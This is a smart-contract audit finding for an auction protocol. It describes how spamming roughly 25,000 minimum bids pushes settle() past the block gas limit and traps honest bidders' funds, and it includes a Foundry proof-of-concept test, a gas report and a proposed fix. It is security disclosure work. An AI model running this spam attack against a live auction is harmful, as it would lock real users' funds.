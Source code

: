 Orbiting Opaque Kestrel

medium

# Marginal price auction can be spammed with minimum bids so honest bidders funds are trapped

## Summary
Poorly (or intentionally maliciously) set up marginal price auctions can get their `settle()` function DOSed.
## Vulnerability Detail
A malicious seller can set up an auction that makes the process of its settlement vulnerable to DOS attacks by spamming it with worthless bids.

The very minimal requirements imposed upon auction creation are:
1. `minPrice` to be > 0
2. `minBidPercent` to be >= 10 (0.01%)

This means that an auction with:
- `capacity` = 10_000e18 (10 000 tokens, assuming base token has 18 decimals precision)
- `minPrice` = 1
- `minBidPercent` = 10

Will have a `minBidSize` of 1e18, which would mean bids have to be for or over the `minAmount` of 1 wei (`minAmount` is equal to `minBidSize * minPrice / 10**baseTokenDecimals` = `1e18 * 1 / 10**18`).

An honest user comes in with a bid offering 5 000 quote tokens (half of capacity), then a malicious user comes in and places an enormous amount of minimum bids (`amount` of 1, equal to `minAmount`). In order to bring the `settle()` function to a state where it runs out of gas due to the loop in **EMPAM#_getLotMarginalPrice()**.
It was calculated that approximately 25 000 spam bids are required to bump the gas cost of executing `settle()` above 30 000 000 gas.

The user that intends to DOS the auction settlement needs to place their bids before the sum amount of the existing bids reaches the auction capacity for the DOS attack to work, but other than that there's not much that stops them from performing the attack.

POC:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import {ERC20} from 'solmate/tokens/ERC20.sol';

import 'src/modules/Modules.sol';
import {Auction} from 'src/modules/Auction.sol';
import {ECIES, Point} from 'src/lib/ECIES.sol';

import {AuctionHouse} from 'src/AuctionHouse.sol';
import {EncryptedMarginalPriceAuctionModule} from 'src/modules/auctions/EMPAM.sol';
import {FeeManager} from 'src/bases/FeeManager.sol';

contract EMPAMTests is Test {
  AuctionHouse public auctionHouse;
  EncryptedMarginalPriceAuctionModule public empaModule;

  address public OWNER = makeAddr('Owner');
  address public PROTOCOL = makeAddr('Protocol');
  address public PERMIT2 = makeAddr('Permit 2');

  MockERC20 public baseToken = new MockERC20("Base", "BASE", 18);
  MockERC20 public quoteToken = new MockERC20("Quote", "QUOTE", 18);

  function setUp() public {
    vm.warp(1710965574);
    auctionHouse = new AuctionHouse(OWNER, PROTOCOL, PERMIT2);
    empaModule = new EncryptedMarginalPriceAuctionModule(address(auctionHouse));

    vm.prank(OWNER);
    auctionHouse.installModule(empaModule);
  }
  
  function test_spam_auction_so_it_cannot_be_settled() public {
    uint256 _AUCTION_PRIVATE_KEY = 112_233_445_566;
    Point memory auctionKey = ECIES.calcPubKey(Point(1, 2), _AUCTION_PRIVATE_KEY);

    address SELLER = makeAddr('Seller');
    vm.startPrank(SELLER);
    baseToken.mint(10_000e18);
    baseToken.approve(address(auctionHouse), 10_000e18);

    AuctionHouse.RoutingParams memory routingParams;
    routingParams.auctionType = keycodeFromVeecode(empaModule.VEECODE());
    routingParams.baseToken = baseToken;
    routingParams.quoteToken = quoteToken;
    routingParams.prefunded = true;

    // Auction requirements:
    // - minPrice > 0
    // - minBidPercent > 0.01% (10)
    // And then:
    // minBidSize = capacity * minBidPercent / 100_000
    //
    // capacity = 10_000e18
    // minPrice = 1 (wei)
    // minBidPercent = 10 (0.01%)
    // minBidSize = 10_000e18 * 10 / 100_000 = 1e18
    Auction.AuctionParams memory auctionParams;
    auctionParams.start = 0;
    auctionParams.duration = 5 days;
    auctionParams.capacity = 10_000e18;
    auctionParams.implParams = abi.encode(
      EncryptedMarginalPriceAuctionModule.AuctionDataParams({
        minPrice: 1,
        minFillPercent: 100_000, // 100%
        minBidPercent: 10, // 0.01%
        publicKey: auctionKey
      })
    );

    auctionHouse.auction(routingParams, auctionParams, "");

    address HONEST_BIDDER = makeAddr('Honest Bidder');
    vm.startPrank(HONEST_BIDDER);
    quoteToken.mint(5_000e18);
    quoteToken.approve(address(auctionHouse), 5_000e18);

    // Bid Math:
    // minAmount = minBidSize * minPrice / 10**18
    // minAmount = 1e18 * 1 / 10**18
    // minAmount = 1
    AuctionHouse.BidParams memory bidParams;
    bidParams.lotId = 0;
    bidParams.amount = 5_000e18;
    bidParams.auctionData = abi.encode(5_000e18, auctionKey);

    // - Submit normal bids
    auctionHouse.bid(bidParams, "");

    // - Spam bids
    address ATTACKER = makeAddr('Attacker');
    uint64 SPAM_BIDS_NUMBER = 25_000;
    vm.startPrank(ATTACKER);
    quoteToken.mint(SPAM_BIDS_NUMBER);
    quoteToken.approve(address(auctionHouse), SPAM_BIDS_NUMBER);
	
    bidParams.amount = 1;
    bidParams.auctionData = abi.encode(1, auctionKey);

    for (uint256 i = 0; i < SPAM_BIDS_NUMBER; i++) { auctionHouse.bid(bidParams, ""); }

    // Warp till after bid conclusion
    vm.warp(block.timestamp + 6 days);

    // Submit private key and decrypt bids
    empaModule.submitPrivateKey(0, _AUCTION_PRIVATE_KEY, 0);

    empaModule.decryptAndSortBids(0, SPAM_BIDS_NUMBER + 1);

    // Settle
    auctionHouse.settle(0);
  }
}

contract MockERC20 is ERC20 {
    constructor(
        string memory _name,
        string memory _symbol,
        uint8 _decimals
    ) ERC20(_name, _symbol, _decimals) {}

    function mint(uint256 amount) public {
      _mint(msg.sender, amount);
    }
}
```

If we run the POC above with `forge test --match-test test_spam_auction_so_it_cannot_be_settled --gas-report` we can see from the gas report table for **AuctionHouse.sol**

```zsh
| src/AuctionHouse.sol:AuctionHouse contract |                 |          |          |          |         |
|--------------------------------------------|-----------------|----------|----------|----------|---------|
| Deployment Cost                            | Deployment Size |          |          |          |         |
| 5253283                                    | 24143           |          |          |          |         |
| Function Name                              | min             | avg      | median   | max      | # calls |
| auction                                    | 333780          | 333780   | 333780   | 333780   | 1       |
| bid                                        | 201416          | 205679   | 201416   | 243234   | 25001   |
| installModule                              | 144693          | 144693   | 144693   | 144693   | 1       |
| isExecOnModule                             | 2400            | 2400     | 2400     | 2400     | 25003   |
| settle                                     | 32708497        | 32708497 | 32708497 | 32708497 | 1       |
```

that `settle()` now costs 32708497 gas to call which would not fit within the block gas limit of 30 million, rendering the auction impossible to settle.

## Impact
What will end up happening is the quote tokens of the honest bidders will be stuck in the auction house after the auction ends as bids cannot be refunded after an auction has ended and bids can only be claimed after auction settlement. But as outlined in the vulnerability details section, the auction will be impossible to be settled so all bids will remain non-claimable and non-refundable.

## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/modules/auctions/EMPAM.sol#L758
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/modules/auctions/EMPAM.sol#L611

## Tool used
Manual Review
Foundry Forge
## Recommendation
Due to the variety of tokens and offerings that can happen through the protocol it's impractical to impose a minimum price requirement that's anything other than 0 (as is now). A more sensible recommendation would be to limit the number of bids a user can place within an auction.

